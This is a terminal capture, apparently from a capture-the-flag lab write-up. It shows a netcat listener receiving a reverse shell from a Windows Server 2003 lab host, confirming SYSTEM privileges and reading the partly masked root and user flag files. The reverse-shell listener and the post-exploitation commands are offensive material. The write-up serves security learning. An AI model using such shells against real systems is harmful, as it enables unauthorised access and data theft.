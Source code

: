 ```powershell
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.14] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
9359e905a**********************

C:\Documents and Settings\Administrator\Desktop>type "C:\Documents and Settings\Harry\Desktop\user.txt"
type "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff5ec67c**********************
```
